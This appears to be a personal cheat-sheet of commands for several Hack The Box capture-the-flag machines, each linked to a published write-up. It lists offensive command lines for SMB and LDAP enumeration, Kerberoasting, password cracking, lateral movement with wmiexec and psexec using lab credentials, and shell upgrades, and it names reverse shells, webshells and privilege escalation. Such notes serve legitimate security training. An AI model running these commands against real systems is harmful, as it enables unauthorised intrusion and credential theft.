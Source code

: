 # Win-Conceal
https://0xdf.gitlab.io/2019/05/18/htb-conceal.html
```
nmap -sU
snmpwalk
john
ipsec up conceal
ftp
webshell .asp
reverse shell - PowerShell
JuicyPotato
```

# Win-Active
https://0xdf.gitlab.io/2018/12/08/htb-active.html
```
enum4linux 10.10.10.100
smbclient \\\\10.10.10.100\\Replication
gpp-decrypt
ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D SVC_TGS -w GPPstillStandingStrong2k18 > ldapsearch.txt
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
john hashadmin -w=/usr/share/wordlists/rockyou.txt
./wmiexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
./psexec.py Administrator:Ticketmaster1968@10.10.10.100
```



# Win-Search
https://0xdf.gitlab.io/2022/04/30/htb-search.html
```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
sheetProtection
pfx2john staff.pfx > pfx_hash
./SharpHound.exe
./smbserver.py share . -smb2support -username df -password df
./BloodHound
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```



# Win-StreamIO
```
SQL Injection
ffuf with authentication
evil-winrm
winPEAS
BloodHound
PowerView.ps1
```


# Lin-Bashed
https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
/dev/phpbash.php
reverse shell - python
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -l
sudo -u scriptmanager bash -i
python -c shell.py
```

# Lin-SolidState
https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
```
nc 10.10.10.51 4555
telnet 10.10.10.51 110
Escape rbash
LinEnum.sh
reverse shell - nc
move to bash
```

# Lin-Jarvis
https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html
```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum.sh
PrivEsc - systemctl
```

# Lin-Backdoor
https://0xdf.gitlab.io/2022/04/23/htb-backdoor.html
```
nmap -p- 10.10.11.125
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://backdoor.htb/wp-content/FUZZ -e .aspx,.php,.txt,.html
WP Plugins-EbookDL Dir Trav
gdbserver RCE
ps & screen
```
